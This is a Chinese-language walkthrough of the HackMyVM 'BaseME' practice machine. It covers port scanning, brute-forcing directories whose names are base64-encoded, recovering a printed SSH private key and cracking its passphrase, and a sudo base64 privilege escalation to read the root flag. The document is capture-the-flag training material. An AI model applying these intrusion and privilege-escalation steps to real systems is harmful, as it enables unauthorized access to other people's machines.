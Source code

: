 ```yaml
---
{"dg-publish":true,"tags":["HMV","base64"],"难度":"⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/8.BaseME/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.854+08:00"}
---
```




## 1. 基本信息^toc

- [[24-渗透/HMV/8.BaseME#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/8.BaseME#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/8.BaseME#3. BASE64编码目录爆破\|3. BASE64编码目录爆破]]
- [[24-渗透/HMV/8.BaseME#4. 提权\|4. 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=BaseME
```


```
作者：sml
```

```
难度：⭐️⭐️
```


```
知识点：base64编码扫描、linuxbase64编码自带换行符、
```
## 2. 信息收集

端口扫描

```Bash
──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.9.10  -p 1-65535 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 21:25 CST
Nmap scan report for 192.168.9.10
Host is up (0.00038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:7C:3B:62 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.001.png)

上面是一串base64编码的字符串

解码得到

```Bash
ALL, absolutely ALL that you need is in BASE64.
Including the password that you need :)
Remember, BASE64 has the answer to all your questions.
-lucas
```
提示我们我们想要的都可以通过base64获取

尝试爆破目录发现没有结果。猜测可能是需要base64加密

## 3. BASE64编码目录爆破

直接对字典进行逐行base64加密

```Bash
import base64

def encode\_file\_line\_by\_line(*input\_file*, *output\_file*):
    with open(*input\_file*, 'r', *encoding*='utf-8') as infile, open(*output\_file*, 'w', *encoding*='utf-8') as outfile:
        for line in infile:
            *# 直接对整行（包括换行符）进行 Base64 编码*
            encoded\_line = base64.b64encode(line.encode()).decode()
            *# 将编码后的内容写入输出文件，并添加换行符*
            outfile.write(encoded\_line + '\n')

*# 使用示例*
input\_file = 'dicc.txt'  *# 输入文件路径*
output\_file = 'base64\_dicc.txt'  *# 输出文件路径*
encode\_file\_line\_by\_line(input\_file, output\_file)
```
然后爆破

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.002.png)

```Bash
/aWRfcnNhCg==
/cm9ib3RzLnR4dAo=
```
获取了私钥

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.002.png)

```Bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBTxe8YUL
BtzfftAdPgp8YZAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCZCXvEPnO1
cbhxqctBEcBDZjqrFfolwVKmpBgY07M3CK7pO10UgBsLyYwAzJEw4e6YgPNSyCDWFaNTKG
07jgcgrggre8ePCMNFBCAGaYHmLrFIsKDCLI4NE54t58IUHeXCZz72xTobL/ptLk26RBnh
7bHG1JjGlxOkO6m+1oFNLtNuD2QPl8sbZtEzX4S9nNZ/dpyRpMfmB73rN3yyIylevVDEyv
f7CZ7oRO46uDgFPy5VzkndCeJF2YtZBXf5gjc2fajMXvq+b8ol8RZZ6jHXAhiblBXwpAm4
vLYfxzI27BZFnoteBnbdzwSL5apBF5gYWJAHKj/J6MhDj1GKAFc1AAAD0N9UDTcUxwMt5X
YFIZK8ieBL0NOuwocdgbUuktC21SdnSy6ocW3imM+3mzWjPdoBK/Ho339uPmBWI5sbMrpK
xkZMnl+rcTbgz4swv8gNuKhUc7wTgtrNX+PNMdIALNpsxYLt/l56GK8R4J8fLIU5+MojRs
+1NrYs8J4rnO1qWNoJRZoDlAaYqBV95cXoAEkwUHVustfgxUtrYKp+YPFIgx8okMjJgnbi
NNW3TzxluNi5oUhalH2DJ2khKDGQUi9ROFcsEXeJXt3lgpZZt1hrQDA1o8jTXeS4+dW7nZ
zjf3p0M77b/NvcZE+oXYQ1g5Xp1QSOSbj+tlmw54L7Eqb1UhZgnQ7ZsKCoaY9SuAcqm3E0
IJh+I+Zv1egSMS/DOHIxO3psQkciLjkpa+GtwQMl1ZAJHQaB6q70JJcBCfVsykdY52LKDI
pxZYpLZmyDx8TTaA8JOmvGpfNZkMU4I0i5/ZT65SRFJ1NlBCNwcwtOl9k4PW5LVxNsGRCJ
MJr8k5Ac0CX03fXESpmsUUVS+/Dj/hntHw89dO8HcqqIUEpeEbfTWLvax0CiSh3KjSceJp
+8gUyDGvCkcyVneUQjmmrRswRhTNxxKRBZsekGwHpo8hDYbUEFZqzzLAQbBIAdrl1tt7mV
tVBrmpM6CwJdzYEl21FaK8jvdyCwPr5HUgtuxrSpLvndcnwPaxJWGi4P471DDZeRYDGcWh
i6bICrLQgeJlHaEUmrQC5Rdv03zwI9U8DXUZ/OHb40PL8MXqBtU/b6CEU9JuzJpBrKZ+k+
tSn7hr8hppT2tUSxDvC+USMmw/WDfakjfHpoNwh7Pt5i0cwwpkXFQxJPvR0bLxvXZn+3xw
N7bw45FhBZCsHCAbV2+hVsP0lyxCQOj7yGkBja87S1e0q6WZjjB4SprenHkO7tg5Q0HsuM
Aif/02HHzWG+CR/IGlFsNtq1vylt2x+Y/091vCkROBDawjHz/8ogy2Fzg8JYTeoLkHwDGQ
O+TowA10RATek6ZEIxh6SmtDG/V5zeWCuEmK4sRT3q1FSvpB1/H+FxsGCoPIg8FzciGCh2
TLuskcXiagns9N1RLOnlHhiZd8RZA0Zg7oZIaBvaZnhZYGycpAJpWKebjrtokLYuMfXRLl
3/SAeUl72EA3m1DInxsPguFuk00roMc77N6erY7tjOZLVYPoSiygDR1A7f3zYz+0iFI4rL
ND8ikgmQvF6hrwwJBrp/0xKEaMTCKLvyyZ3eDSdBDPrkThhFwrPpI6+Ex8RvcWI6bTJAWJ
LdmmRXUS/DtO+69/aidvxGAYob+1M=
-----END OPENSSH PRIVATE KEY-----
```
ssh连上去

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.003.png)

提示需要私钥密码

猜测就是开始下面那句话的Base64编码

```Bash
iloveyou
youloveyou
shelovesyou
helovesyou
weloveyou
theyhatesme
```
这里直接逐行Base64加密是不行的，后面要加上一个回车才是对的（因为他这里面的编码都是linux里面进行的。linux默认对字符串进行base64编码后面是带有换行符的）

第一个加密就是对的

```Bash
iloveyou 》aWxvdmV5b3UK
```
然后就能连接上来了

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.004.png)

## 4. 提权

```Bash
lucas@baseme:~$ find / -perm -4000 2>/dev/null
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/mount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
lucas@baseme:~$ sudo -l
Matching Defaults entries for lucas on baseme:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucas may run the following commands on baseme:
    (ALL) NOPASSWD: /usr/bin/base64
lucas@baseme:~$ 
```


```Bash
sudo base64 "/root/root.txt" |base64 --decode
```
这里应该读取私钥然后连接

我这里直接偷懒读取flag了


